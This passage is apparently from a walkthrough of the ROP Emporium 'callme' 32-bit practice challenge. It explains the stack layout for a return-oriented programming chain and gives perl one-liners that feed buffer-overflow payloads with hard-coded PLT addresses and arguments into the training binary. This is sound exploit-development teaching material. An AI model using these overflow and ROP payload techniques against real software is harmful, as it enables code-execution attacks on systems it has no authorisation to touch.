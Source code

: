 Thus, the order will be as follows (from the top of the stack and down): 
* 44 bytes of garbage:
    * `"X"`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* some arbitrary return address (currently just garbage):
    * `"YYYY"`
* followed by the first, second, and third parameters:
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit the debugger (with `q` command) and try the next ROP chain.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "YYYY" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./11.png)

```
sudo dmesg -k | tail -2
```
![](./12.png)

So, we've successfully executed the first function and verified that the return address to it is indeed in the place we thought (it fell at the end because `YYYY` isn't actually an address...). But now we're in trouble. How can we call the second function and pass it the parameters? If we replace `YYYY` with the address of the second function, we won't be able to pass it parameters without disrupting the parameters for the first function (a matter of stack positioning). 

To illustrate the problem, let's replace `YYYY` with the address of the function `callme_two` (`0x08048550` address) and run it.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "\x50\x85\x04\x08" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```
![](./13.png)
